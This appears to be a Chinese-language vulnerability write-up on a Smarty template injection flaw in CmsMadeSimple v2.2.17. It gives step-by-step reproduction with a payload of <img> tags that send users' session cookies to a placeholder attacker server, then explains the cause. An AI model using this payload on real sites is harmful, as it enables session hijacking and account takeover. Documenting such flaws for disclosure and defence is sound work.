 **漏洞名称**：CmsMadeSimple v2.2.17 - 服务端模板注入（SSTI）导致的会话劫持
**风险等级**：高危
**影响版本**：CmsMadeSimple v2.2.17
**漏洞类型**：服务端模板注入（SSTI）
**利用后果**：攻击者可窃取用户会话Cookie，劫持合法用户身份，进一步执行未授权操作。

------

### **漏洞复现步骤**

1. **登录系统**

   - 使用测试账户或低权限账户登录后台。

2. **定位注入点**

   - 进入`内容管理 > 新增内容`（路径：`/admin/moduleinterface.php`）。

3. **注入Payload**

   - 在`content_en`字段插入以下Smarty模板代码：

     ```
     {$smarty.version}  
     {{7*7}}  
     {$smarty.now}  
     {$smarty.template}  
     <img src="攻击者服务器/{$smarty.cookies.CMSSESSID852a6e69ca02}">  
     <img src="攻击者服务器/{$smarty.cookies.34a3083b62a225efa0bc6b5b43335d226264c2c1}">  
     <img src="攻击者服务器/{$smarty.cookies.__c}">  
     ```
   
4. **触发漏洞**

   - 保存内容后，诱使用户访问该页面。
   - 攻击者服务器接收用户Cookie（如`CMSSESSID`、`__c`），实现会话劫持。

------

### **漏洞原理分析**

1. **模板引擎**：CmsMadeSimple使用Smarty模板引擎，但未对用户输入内容进行过滤。
2. **注入逻辑**：
   - `{$smarty.cookies.XXX}`直接读取用户Cookie并嵌入页面。
   - 通过`<img>`标签将Cookie发送至攻击者控制的服务器。
3. **权限依赖**：需内容编辑权限，但危害显著（横向权限提升、数据泄露）。

------

### **关键知识点总结**

| 漏洞阶段        | 技术细节                                    | 关键知识点                                               |
| :-------------- | :------------------------------------------ | :------------------------------------------------------- |
| **注入点定位**  | 内容管理模块（`content_en`字段）            | 低权限用户利用、功能路径（`/admin/moduleinterface.php`） |
| **Payload构造** | 通过Smarty变量`{$smarty.cookies}`窃取Cookie | Smarty模板语法（`{$}`）、全局变量访问（`cookies`）       |
| **信息泄露**    | 利用`<img>`标签外传Cookie至远程服务器       | HTTP请求触发、数据外泄机制                               |
| **漏洞验证**    | 攻击者服务器接收Cookie日志，确认会话劫持    | 外部服务监听、攻击链闭环验证                             |
